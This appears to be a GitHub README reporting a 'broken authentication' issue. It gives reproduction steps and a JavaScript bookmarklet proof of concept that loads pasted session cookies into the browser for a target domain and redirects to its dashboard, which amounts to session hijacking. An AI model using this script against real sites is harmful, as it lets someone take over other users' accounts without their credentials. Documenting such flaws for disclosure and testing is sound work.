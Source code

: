 # Broken Authentacation

**Description**

The session management mechanism is a fundamental security component in the majority of web applications. HTTP itself is a stateless protocol, and session management enables the application to uniquely identify a given user across a number of different requests and to handle the data that it accumulates about the state of that user's interaction with the application.

Because of the key role played by session management mechanisms, they are a prime target for malicious attacks against the application. If an attacker can break an application's session management, they can effectively bypass its authentication controls and masquerade as other application users without knowing their credentials. If an attacker compromises an administrative user in this way, the attacker can own the entire application.

### Steps to Reproduce:

1. First log in into the account, website will create a session for current login.
2. Copy all Cookies and paste it on notepad.
3. Log out your account.
4. Open your chrome browser and right click on **bookmark bar** and ```add page```.
5. Now, on `Edit Bookmark` and paste it on URL and save.
```javascript
/*
Broken Authentacation Script code by ph.hitachi
Email: ph.hitachi@gmail.com
Facebook: https://fb.com/ph.hitachi.gov.ph
*/ 
javascript:void(function(){
    function setCookie(Cookie) { 
    var list = Cookie.split("; "); 
    console.log(list); 
        for (var i = list.length - 1; i >= 0; i--) { 
            var cname = list[i].split("=")[0]; var cvalue = list[i].split("=")[1]; 
            var d = new Date(); d.setTime(d.getTime() + (7*24*60*60*1000)); 
            var expires = ";domain=.example.com;expires="+ d.toUTCString(); //change the .example.com
            document.cookie = cname + "=" + cvalue + "; " + expires; 
        } 
    } 
    function hex2a(hex) { 
        var str = ''; 
        for (var i = 0; i < hex.length; i += 2) {
            var v = parseInt(hex.substr(i, 2), 16); 
            if (v) str += String.fromCharCode(v); 
        } 
    return str; 
    } 
    var cookie = prompt("Broken Authentacation PoC", "Put Cookie here"); 
    setCookie(cookie); 
    location.href = 'https://example.com/dashboard'; //change the https://example.com/dashboard
})();
```
6. Click the bookmark page that you created, make sure you are in https://example.com/ before you click the bookmark that you created to popup this.

![](https://i.imgur.com/mLV03PI.png)

Now put the cookie and you will redirect in `https://example.com/dashboard`


### Video PoC
[![Watch the video](https://i.imgur.com/mLV03PI.png)](https://youtu.be/91tR8O6YaQk)

